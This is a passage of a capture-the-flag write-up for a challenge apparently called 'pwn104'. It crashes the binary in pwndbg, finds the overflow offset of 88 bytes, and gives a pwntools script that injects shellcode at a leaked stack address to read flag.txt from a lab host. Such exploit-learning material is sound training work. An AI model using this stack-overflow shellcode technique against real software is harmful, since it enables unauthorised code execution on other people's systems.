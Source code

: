 Let's open pwndbg with our binary and try to crash it

```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/pwn104/pwn104.pwn104 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7fffffffe610
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.
0x000000000040124e in main ()
```

Finally let's get our offset

```shell
pwndbg> cyclic -l laaaaaaa
Finding cyclic pattern of 8 bytes: b'laaaaaaa' (hex: 0x6c61616161616161)
Found at offset 88
```

Let's craft our python code

```python
from pwn import *

exe = './pwn104.pwn104'
elf = context.binary = ELF(exe, checksec=False)
io = remote("10.10.135.73", 9004)

io.recvuntil(b'at ') # program leaks the buffer location and we need to get it
address = io.recvline() 
bufferLocation = p64(int(address, 16))

shellcode = asm(shellcraft.cat('flag.txt'))
shellcode += asm(shellcraft.exit())

payload = flat(
    shellcode,
    asm('nop') * (88 - len(shellcode)),
    bufferLocation
)
write('payload', payload)
io.sendline(payload)
io.interactive()
```

